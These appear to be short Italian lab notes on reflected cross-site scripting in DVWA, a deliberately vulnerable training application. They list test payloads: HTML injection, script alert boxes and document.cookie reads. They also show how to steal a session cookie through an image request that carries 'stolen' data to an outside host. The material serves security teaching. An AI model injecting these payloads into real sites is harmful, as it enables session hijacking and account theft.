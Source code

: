 *************************
*************************
*************************
XSS Reflected

in DVWA: 

• test con html (visualizzazione sorgente, anche in url)

<H1>testo</H1>










• test scripting

<script>alert('Testo')</script>







*************************
Furto dei cookie di sessione
*************************




• codice javascript per l'estrazione dei cookie [test nella console di firebug]

document.cookie

<script>alert(document.cookie)</script>






• creazione di una immagine che fa partire una richiesta HTTP verso la pagina di cattura dei dati

	- test con il codice html per una immagina
	<img src="http://cris.unimore.it/fakeimg.jpg?stolen=datirubati">






	- alert della stringa
<script>evil_url="http://cris.unimore.it/fakeimg.jpg&stolen="; evil_url+=document.cookie; alert(evil_url); </script>

<script>
evil_url="http://cris.unimore.it/fakeimg.jpg&stolen="; 
evil_url+=document.cookie; 
alert(evil_url);
</script>
